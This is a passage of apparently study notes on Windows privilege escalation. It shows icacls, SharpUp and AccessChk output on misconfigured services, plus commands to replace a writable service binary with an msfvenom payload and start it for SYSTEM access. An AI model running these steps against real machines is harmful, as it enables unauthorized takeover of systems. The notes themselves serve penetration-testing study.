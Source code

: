 ##### Checking Permissions with icacls
```
PS C:\> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
Using icacls we can verify the vulnerability and see that the EVERYONE and BUILTIN\Users groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents

##### Replacing Service Binary

This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with msfvenom. It can give us a reverse shell as SYSTEM, or add a local admin user and give us full administrative control over the machine.
```
C:\> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\> sc start SecurityService
```

#### Weak Service Permissions

##### Reviewing sharpup again
```
C:\> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```
> the WindscribeService is potentially misconfigured.
  
##### Checking Permissions with AccessChk

we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are **-q (omit banner)**, **-u (suppress errors)**, **-v (verbose)**, **-c (specify name of a Windows service)**, and **-w (show only objects that have write access)**. Here we can see that all Authenticated Users have [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service,which means full read/write control over it
 